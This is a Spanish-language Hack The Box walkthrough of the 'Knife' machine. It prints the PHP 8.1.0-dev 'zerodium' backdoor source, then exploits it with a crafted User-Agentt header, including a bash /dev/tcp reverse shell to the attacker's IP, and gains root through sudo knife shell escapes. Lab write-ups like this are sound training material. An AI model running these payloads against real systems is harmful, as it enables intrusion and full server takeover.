 #by d4l1

<h1 align="center">KNIFE</h1>

<p align="center"><img src="https://github.com/D4l1-web/HTB/assets/79869523/85d7a8e8-60c2-4ce6-a4c2-d3d03dab76f3"></p>

# INTRODUCCIÓN

Knife es una máquina Linux con dificultar fácil, deberemos hacer un backdoor por php. Esta vulnerabilidad nos dara poder entrar al servidor. Una missconfiguracion de sudo para ganar root.

Como siempre el ping y el escaneo de puertos

![image](https://github.com/D4l1-web/HTB/assets/79869523/7ae003f4-bf6e-456e-b15f-69679e178704)

Escaner

![image](https://github.com/D4l1-web/HTB/assets/79869523/b3ac5b6c-f73a-4cef-99b2-6f387d923a66)

Nos revela dos puertos el 22 (ssh) y el 80 (http) un apache

Utilizaremos fuzz para enumerar archivos 

```
ffuf -u http://10.10.10.242/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
![image](https://github.com/D4l1-web/HTB/assets/79869523/8642d191-9625-49be-87e0-8e51fa56612b)

nada interesante menos un index.php vamos a ver si responde

```
curl -I http://10.10.10.242/index.php
```

![image](https://github.com/D4l1-web/HTB/assets/79869523/ae0ce0fe-584e-40f8-b5b2-8137c043689a)


Nos revela que "X-Powered-by" en php/8.1.0-dev y encontramos un [exploit](https://www.exploit-db.com/exploits/49933)

La version PHP tal es de 28th de 2021, tiene contenido malicio pusheando "php-src-repo" pero el backdoor se decubrio y se removio, pero tiene un commit explicando la funcion.

```

 zval zoh;
 php_output_handler *h;
 zval *enc;
 if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY ||
zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
 (enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]),
"HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
 convert_to_string(enc);
 if (strstr(Z_STRVAL_P(enc), "zerodium")) {
 zend_try {
 zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid
2017");
 } zend_end_try();
 }
 }
 switch (ZLIBG(output_compression)) {
 case 0:
```

El codigo checkear que la string "zerodium" en User_agent header, busca un ejecutar el codigo despues del string
```
zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```
Vamos a coger un listener en el puerto 80 o el que quieras

Haremos un curl a dicha direccion

```
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl 10.10.14.177");'
sudo python3 -m http.server 80
```
Yo en mi caso he abierto en el puerto 8000 pero no hay ningun problema simplemente poneis :  y el puerto
![image](https://github.com/D4l1-web/HTB/assets/79869523/ceff49dc-9af3-4f3f-9e8a-42a26e90134f)

Tenemos conexión probemos ahora una rvshell

```
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i
&>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

Estamo dentro 

![image](https://github.com/D4l1-web/HTB/assets/79869523/6d4a3570-1df4-4477-93a0-0384d82eed11)

Tenemos la primera flag 
![image](https://github.com/D4l1-web/HTB/assets/79869523/d3550329-8ae1-49a3-b264-6970e040f6bb)

## ESCALADA DE PRIVILEGIOS

Una vez hecho esto utilizamos el mágico linpeash curleamos nuestra ip y nos lo bajamos

![image](https://github.com/D4l1-web/HTB/assets/79869523/af244d50-e419-487d-9703-1eb3fffce078)

Nos dice que james puede ejecutar knife como root. knife es una herramienta con interfaz que mantiene los nodos automatizados, libros de cocina, recipientes, etc. 

```
sudo knife data bag create 1 2 -e vi
```
Esto nos abrira un vim edito y creamos una shell con root

```
:!/bin/sh
```
No podemos hacerlo y debemos upgradear la shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
reset
xterm
```
```
sudo knife exec
exec "/bin/bash"
```
pulsamos Ctrl + d 

Somos root

![image](https://github.com/D4l1-web/HTB/assets/79869523/859ae349-3814-455f-b6be-d3210f4161e0)


